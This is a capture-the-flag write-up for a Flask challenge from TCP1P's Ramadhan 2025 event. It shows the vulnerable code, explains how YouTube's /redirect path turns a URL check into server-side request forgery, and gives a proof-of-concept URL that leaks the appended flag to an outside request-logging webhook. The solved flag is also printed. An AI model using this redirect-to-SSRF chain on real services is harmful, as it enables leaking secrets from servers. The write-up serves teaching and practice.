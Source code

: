 ```yaml
---
title: "0day Youtube Open Redirect to SSRF"
date: "2025-03-23"
description: "0day Youtube Open Redirect Vulnerability Chall in TCP1P Special Ramadhan 2025 "
categories: [
    "Write-up"
]
tags : [
    "National",
    "TCP1P"
]
image: raaa.png
---
```


![](desc.png)

## Desclaimer
i didnt expect this is was 0day vuln lol, but the probset (problem setter) say this:

![](dim.png)

## Challenge Overview
The challenge presented a simple Flask web service with a single GET endpoint. The source code was available, and the functionality seemed straightforward: it accepted a url query parameter, validated that it was a youtube.com URL, and then made a server-side HTTP request to that URL.

```py
@app.get("/")
def home():
    url = request.args.get("url", False)
    if not url:
        return "Url not found"
    if not re.match(r"^https://youtube.com/.*$", url):
        return "url isn't youtube url"
    response = requests.get(url+"?"+FLAG)
    return response.text

```
The server would then send the contents of the fetched URL back in the response.

## Vulnerability Analysis
At first glance, the security filter appears to block non-YouTube URLs. But there's a subtle weakness: the service only checks that the URL starts with https://youtube.com/, and does not validate what the redirected URL points to.

#### Key Issue: Open Redirect on YouTube
YouTube uses a redirection system on the /redirect path, where URLs like this:
```bash
https://youtube.com/redirect?q=https://attacker.com
```
will redirect to https://attacker.com, but still pass the **regex check**.

The Flask app fetches that URL, which means it is **vulnerable to SSRF (Server-Side Request Forgery)** through this open redirect. By abusing this, an attacker can trick the server into making HTTP requests to any domain, including internal services.

## Exploitation Strategy
The `requests.get(url + "?" + FLAG)` portion appends the flag as a query string to the final destination. If the attacker can control the destination domain (via redirection), they can capture this flag.

To exploit it:
1. Setup a HTTP request logging service like webhook
2. Craft a Youtube redirect URL that points to your webhook

## PoC
```
http://playground.tcp1p.team:16787/?url=https://youtube.com/redirect?q=https://bargas.requestcatcher.com
```

![](poc.png)

![](reqcatch.png)

Flag: `RAMADAN{open_redirection_on_youtube_is_really_handy}`

